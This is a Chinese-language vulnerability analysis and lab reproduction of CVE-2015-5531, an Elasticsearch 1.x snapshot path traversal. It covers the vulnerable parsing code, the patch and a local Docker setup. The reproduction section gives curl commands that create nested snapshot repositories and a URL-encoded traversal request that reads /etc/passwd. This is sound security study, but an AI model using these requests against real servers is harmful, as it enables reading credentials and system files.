






# CVE-2015-5531 CWE-22 ElasticSearch 目录穿越

## 漏洞背景

- **ElasticSearch ：**一个开源的分布式 RESTful 搜索和分析引擎、可扩展的数据存储和向量数据库，能够解决不断涌现出的各种用例。能够存储大量数据，支持实时搜索、多租户、分布式索引和存储。采用文档导向型存储，数据以 JSON 文档形式存在，字段灵活。其在全文检索方面表现出色，能快速处理复杂搜索请求，常用于日志分析、网站搜索等场景，还可通过添加节点方便扩展集群规模，不过在事务处理完整性和数据更新一致性等方面相对传统数据库稍弱。
- **快照仓库：**Elasticsearch 的快照仓库是一个存储快照的存储区域。它主要用于保存 Elasticsearch 集群数据的备份（快照），以便在需要时进行恢复。快照仓库可以配置在多种存储系统上，如本地文件系统、共享文件系统、云存储（如 Amazon S3、Google Cloud Storage、Microsoft Azure Blob Storage 等）等。当设置好快照仓库后，可以通过 Elasticsearch 提供的 API 来创建、恢复、删除快照等操作，对集群数据进行有效的管理和保护，确保数据的安全性和可恢复性。
- **CWE-22（Path Traversal）：**即路径遍历，是一种安全漏洞，它允许攻击者通过操纵文件路径，访问或操作受限目录之外的文件或目录。这种漏洞通常发生在Web应用程序或系统未能正确验证用户输入的文件路径时。例如，攻击者可以利用“../”这样的特殊字符组合，导航到父目录或其他未经授权的区域，从而读取敏感文件、修改或删除数据，甚至执行恶意操作。

## 漏洞原理

Elasticsearch 的快照功能允许用户将索引数据备份到指定的文件系统路径中。 Elasticsearch 在使用 _snapshot API 时，未正确处理 path.repo 配置，攻击者可以创建一个快照仓库，并指定其位置为一个受控目录。随后，通过构造包含目录遍历序列（如 `../`）的请求路径，攻击者可以访问服务器上的任意文件。

## 漏洞定位

分析 Elasticsearch 1.5.1 源码

在 src\main\java\org\elasticsearch\index\snapshots\blobstore\BlobStoreIndexShardSnapshot.java 文件是 Elasticsearch 中负责处理快照文件信息的类，其中第 241 行的 fromXContent 方法负责解析快照元数据中的文件信息。然而，该方法在处理 `name` 和 `physical_name` 字段时，**未对其进行充分的验证**，导致攻击者可以构造包含路径遍历序列（如 `../`）的字段值，让 `physical_name` 指向任意系统文件路径，`FileInfo` 中的 `physical_name` 会被 Elasticsearch 拼接进文件路径，从而访问 Elasticsearch 进程权限范围内的任意文件。

```java
 public static FileInfo fromXContent(XContentParser parser) throws IOException {
            XContentParser.Token token = parser.currentToken();
            String name = null;
            String physicalName = null;
            long length = -1;
            String checksum = null;
            ByteSizeValue partSize = null;
            Version writtenBy = null;
            BytesRef metaHash = new BytesRef();
            if (token == XContentParser.Token.START_OBJECT) {
                while ((token = parser.nextToken()) != XContentParser.Token.END_OBJECT) {
                    if (token == XContentParser.Token.FIELD_NAME) {
                        String currentFieldName = parser.currentName();
                        token = parser.nextToken();
                        if (token.isValue()) {
                            if ("name".equals(currentFieldName)) {
                                name = parser.text();
                            } else if ("physical_name".equals(currentFieldName)) {
                                physicalName = parser.text();
                            } else if ("length".equals(currentFieldName)) {
                                length = parser.longValue();
                            } else if ("checksum".equals(currentFieldName)) {
                                checksum = parser.text();
                            } else if ("part_size".equals(currentFieldName)) {
                                partSize = new ByteSizeValue(parser.longValue());
                            } else if ("written_by".equals(currentFieldName)) {
                                writtenBy = Lucene.parseVersionLenient(parser.text(), null);
                            } else if ("meta_hash".equals(currentFieldName)) {
                                metaHash.bytes = parser.binaryValue();
                                metaHash.offset = 0;
                                metaHash.length = metaHash.bytes.length;
                            } else {
                                throw new ElasticsearchParseException("unknown parameter [" + currentFieldName + "]");
                            }
                        } else {
                            throw new ElasticsearchParseException("unexpected token  [" + token + "]");
                        }
                    } else {
                        throw new ElasticsearchParseException("unexpected token  [" + token + "]");
                    }
                }
            }
            // TODO: Verify???
            return new FileInfo(name, new StoreFileMetaData(physicalName, length, checksum, writtenBy, metaHash), partSize);
        }
```

本质上是：由于快照元数据中缺乏对文件名字段的安全校验，导致攻击者可以构造伪造路径，而 Elasticsearch 要求快照文件名必须以 snapshot- 开头，但是可以通过使用 snapshot-ev1l/ 目录来伪造合法快照绕过 snapshot- 快照命名约束，从而读取任意文件。

## 漏洞修复


补丁在 `BlobStoreIndexShardSnapshot.java` 的 `fromXContent` 方法中增加了文件信息校验，确保文件名和物理文件名存在且有效，并要求文件长度为非负数。

```java
if (name == null || Strings.validFileName(name) == false) {
    throw new ElasticsearchParseException("missing or invalid file name [" + name + "]");
} else if (physicalName == null || Strings.validFileName(physicalName) == false) {
    throw new ElasticsearchParseException("missing or invalid physical file name [" + physicalName + "]");
} else if (length < 0) {
    throw new ElasticsearchParseException("missing or invalid file length");
}
```

## 影响范围


Elasticsearch 1.0.0 至 1.6.0

## 环境搭建

elasticsearch 1.5.1 及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件 elasticsearch.yml 中必须存在 path.repo，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。这里环境使用 1.5.1 版本

1. 启动 Docker 环境，ElasticSearch 版本为 1.5.1，开放端口为 9200。

   

2. Docker 环境中已创建一个索引为 init_index、类型为 user、文档 ID 为 1 的文档，并设置字段 name 为 init_user。使用以下命令查看文档的信息。

   ```bash
   curl -XGET 'http://127.0.0.1:9200/init_index/user/1?pretty'
   ```

   

## 漏洞复现

1. 执行下面命令向本地运行的 Elasticsearch 的_snapshot接口发送请求，创建一个名为 test 的快照仓库，类型为文件系统（fs），并指定该仓库的存储路径为 /usr/share/elasticsearch/repo/test。

   ```bash
   curl -X PUT "http://127.0.0.1:9200/_snapshot/test" -H "Content-Type: application/json" -d '{"type": "fs", "settings": {"location": "/usr/share/elasticsearch/repo/test"}}'
   ```

2. 创建一个名为 test2 的文件系统（fs）类型的快照仓库，指定的存储路径为 /usr/share/elasticsearch/repo/test/snapshot-backdata

   ```bash
   curl -X PUT "http://127.0.0.1:9200/_snapshot/test2" -H "Content-Type: application/json" -d '{"type": "fs", "settings": {"location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"}}'
   ```

   

3. 在 Fierfox 浏览器中访问名为 test 的快照仓库，并使用 URL 编码编码请求的路径，尝试通过目录穿越访问敏感文件 /etc/passwd。可以看到报错，在错误信息中包含文件内容（ASCII 编码后）。

   ```http
   http://127.0.0.1:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
   ```

   

4. 打开浏览器的 console 使用浏览器自带的 String.fromCharCode 函数解码，可以看到 /etc/passwd 文件的内容。

   

## PoC分析

执行 PoC 代码，输入 ElasticSearch 的 IP 和端口号，以及想要访问的文件路径，最后成功返回文件内容。

```bash
python CVE-2015-5531-PoC.py
```



PoC 代码向 Elasticsearch 发送 HTTP PUT 请求，创建一个名为 pwn 的快照仓库，设置其位置为 dsr，之后创建第二个快照仓库 pwnie，其位置为 dsr/snapshot-ev1l。

这种设置的目的是为了绕过 Elasticsearch 对快照名称的前缀限制。Elasticsearch 要求快照名称以 snapshot- 开头，攻击者通过在路径中嵌套一个以 snapshot- 开头的目录（如 snapshot-ev1l），所以 snapshot-ev1l 会被误以为是 pwn 仓库的 ev1l 快照，快照都是文件形式保存的，而 snapshot-ev1l 是目录，elasticsearch 没有区分，如果 elasticsearch 发现其是目录之后，就继续读取目录下的内容，如果目录下的文件明称是恶意构造的(类似../../../) elasticsearch 就会去读取这个递归读取文件的内容（这里 elasticsearch 没有过滤），从而导致目录遍历（任意文件内容读取）。

## 参考链接


[NVD - CVE-2015-5531](https://nvd.nist.gov/vuln/detail/CVE-2015-5531)

[Reproduction and Analysis](https://sechub.in/view/253462) of the Elasticsearch Directory Traversal Vulnerability (CVE-2015-5531).
